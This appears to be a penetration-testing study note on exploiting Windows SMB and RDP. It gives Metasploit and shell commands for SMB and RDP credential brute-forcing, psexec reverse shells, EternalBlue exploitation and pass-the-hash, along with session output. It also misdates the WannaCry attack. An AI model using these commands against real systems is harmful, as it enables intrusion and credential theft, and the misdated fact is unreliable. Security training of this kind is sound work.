

# SMB Exploitation

> [!info] Navigation
> [[Home]] | [[Master Table of Contents]] | [[Exam Cram Guide]] | [[Command Dashboard]] | [[Curated External Sources]] | [[Visual Diagram Index]]


## Sections in This Note
- [[#PsExec|PsExec]]
- [[#SMB Exploitation with PsExec|SMB Exploitation with PsExec]]
- [[#Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)|Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)]]
- [[#Pass-the-Hash with PsExec|Pass-the-Hash with PsExec]]

---

## PsExec
PsExec is a lightweight telnet replacement developed by Microsoft that allows you to execute processes on a remote Windows system using any user's credentials. PsExec authentication is performed via SMB.

## SMB Exploitation with PsExec

In order to utilize PsExec to gain access to a Windows target, we need to identify a legitimate user account and their password or password hash. The most common technique involves performing an SMB login brute-force attack.

After obtaining a legitimate user account and password, we can authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

**Brute force attack on SMB to get authentication:**
```
Commands:
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS 10.0.0.242
set VERBOSE false
exploit
```

**Running psexec module to gain meterpreter shell:**
```
use exploit/windows/smb/psexec
set RHOSTS 10.0.0.242
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
```

```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.0.0.242
RHOSTS => 10.0.0.242
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
SMBPass => qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.0.2:4444
[*] 10.0.0.242:445 - Connecting to the server...
[*] 10.0.0.242:445 - Authenticating to 10.0.0.242:445 as user 'Administrator'...
[*] 10.0.0.242:445 - Selecting PowerShell target
[*] 10.0.0.242:445 - Executing the payload...
[+] 10.0.0.242:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (180291 bytes) to 10.0.0.242
[*] Meterpreter session 1 opened (10.10.0.2:4444 -> 10.0.0.242:49692) at 2020-09-27 00:14:06 +0530

meterpreter >
```

---

## SMB Vulnerability (EternalBlue)

**Tools used:** AutoBlue-MS17-010

```
# Check target vulnerability
nmap -sV -p445 --script=smb-vuln-ms17-010 (IPaddress)
```

**To start exploit:**
```
git clone (autoblue)
ls -al
cd shellcode
ls
chmod +x shell_prep.sh
./shell_prep.sh
# set the LHOST and LPORT
```

**Execute the exploit:**
```
eternalblue_exploit7.py (IPaddress) shellcode/sc_x64.bin
-nvip (port)
```

**Automated execution using Metasploit:**
```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS (IPaddress)
exploit
```

---

## Exploiting RDP

The Remote Desktop Protocol is a proprietary GUI remote access protocol developed by Microsoft used to remotely connect and interact with a Windows system. RDP uses TCP port 3389 by default.

**Brute force attack to get credentials:**
```
hydra -L (user file location) -P (password file location) rdp://(IPaddress) -s (port number)
```

**To exploit:**
```
xfreerdp /u:username /p:(password) /v:(ipaddress)/(portnumber)
```

## Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)

EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system. Developed by the NSA and leaked by the Shadow Brokers in 2017. Takes advantage of a vulnerability in the Windows SMBv1 protocol, allowing attackers to send specially crafted packets to execute arbitrary commands.

Used in the WannaCry ransomware attack (June 27, 2017) to spread across networks.

**Affects:** Windows Vista, Windows 7, Windows Server 2008, Windows 8.1, Windows Server 2012, Windows 10, Windows Server 2016.

```
msfconsole
workspace -a Eternalblue
db_nmap -sS -sV -O (IPaddress)
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS (IPaddress)
run

# if vulnerable to ms17-010
search type:exploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOST (IPaddress)
run
```

## Pass-the-Hash with PsExec

Pass-the-hash is an exploitation technique involving capturing/harvesting NTLM hashes or clear-text passwords and using them to authenticate with the target legitimately. We can use the PsExec module to legitimately authenticate via SMB, obtaining access via legitimate credentials instead of service exploitation.

```
hashdump
# (copy the hashdump value and save it in a text file)

use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS (IPaddress)
set SMBUser (user name)
set SMBPass (paste the hash value)
exploit
```

## External Sources
- [Microsoft SMB Protocol Overview](https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview)
- [Metasploit Documentation - Modules](https://docs.metasploit.com/docs/modules.html)

## Visual Diagram


## Related
- [[Exam Cram Guide]]
- [[Command Dashboard]]

---
## Migrated from Unsorted Notes — Overview

### Overview
Microsoft Windows is the dominant operating system worldwide, with a market share ~70% as of 2021. The popularity and widespread deployment of Windows makes it a prime target for attackers. Over the last 15 years, Windows has had its share of severe vulnerabilities, ranging from MS08-067 (Conficker) to MS17-010 (EternalBlue).

Windows OS is developed in the C programming language, making it vulnerable to buffer overflows, arbitrary code execution, etc. By default, Windows is not configured to run securely, and requires proactive implementation of security practices.

---
## Migrated from Unsorted Notes — SMB

### SMB
SMB (Server Message Block) is a network file sharing protocol used to facilitate the sharing of files and peripherals (printers) between computers on a local network. SMB uses port 445, but originally ran on top of NetBIOS using port 139.

SMB protocol utilizes two levels of authentication:
- **User Authentication:** User must provide a username and password in order to authenticate with the SMB server to access a share.
- **Share Authentication:** User must provide a password in order to access a restricted share.

**Authentication flow:**
```
Client ---Authentication Request---> Server
Client <---Encrypt string with user's hash--- Server
Client ---Encrypted string---> Server
Client <---Access Granted--- Server
```
